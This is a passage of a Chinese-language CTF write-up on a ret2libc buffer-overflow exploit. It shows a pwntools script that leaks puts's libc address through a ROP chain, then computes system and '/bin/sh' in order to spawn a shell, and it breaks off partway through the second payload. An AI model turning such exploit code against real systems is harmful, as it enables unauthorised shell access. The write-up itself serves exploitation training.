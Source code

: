 ```python
payload1+=p64(puts_plt) #再调用puts将实际地址输出
payload1+=p64(main_addr) #由于程序main函数只有一次read，所以还得再次回到main函数再用read函数修改返回地址来实现system('/bin/sh')
link.sendline(payload1)
puts_real_addr=u64(link.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
```

> 写到这里就已经成功把`puts`函数的实际地址给得到了
>
> 重点是最后这句：
>

```python
puts_real_addr=u64(link.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
```

+ `u64()`是解包
+ `[-6:]`这个是指取接收到的数据的最后6个字节
+ `ljust()`函数是在原数据末尾添加指定数据补齐一定长度（这里是末尾加`\x00`补齐8字节）

> 在处理之前会得到这样的结果：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240826121201886.png)![](/images/5d7e52ab585a60942229881929131e46.png)  
在处理后是这样的结果：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240826121252121.png)![](/images/bb28cade068304bc4ac406d8023f2acd.png)
>

> 然后接着计算`system`函数和`/bin/sh`字符串的地址：
>

```python
libc_base=puts_real_addr-libc.sym['puts']
system_addr=libc_base+libc.sym['system']
binsh_addr=libc_base+next(libc.search(b'/bin/sh')) #/bin/sh是字符串得用search函数找，而且search函数返回结果是列表，要用next函数获取第一项
```

> 最后写出完整的脚本：
>

```python
from pwn import *
link=remote('challenge.basecctf.fun',端口)
e=ELF('./pwn')
libc=ELF('./libc.so.6')

main_addr=0x4011DF
rdi=0x401176
retn=0x401179 #看看后来调用system函数时栈是否平衡，不平衡就把retn加上
puts_plt=e.plt['puts']
puts_got=e.got['puts']

link.recvuntil(b'do?')
payload1=b'a'*0x12
payload1+=p64(rdi)
payload1+=p64(puts_got) #先将puts的实际地址放到rdi寄存器中
payload1+=p64(puts_plt) #再调用puts将实际地址输出
payload1+=p64(main_addr) #由于程序main函数只有一次read，所以还得再次回到main函数再用read函数修改返回地址来实现system('/bin/sh')
link.sendline(payload1)
puts_real_addr=u64(link.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

libc_base=puts_real_addr-libc.sym['puts']
system_addr=libc_base+libc.sym['system']
binsh_addr=libc_base+next(libc.search(b'/bin/sh')) #/bin/sh是字符串得用search函数找，而且search函数返回结果是列表，要用next函数获取第一项

payload2=b'a'*0x12
payload2+=p64(retn) #在没加retn的情况下运行了一遍发现Got EOF，所以加上了
```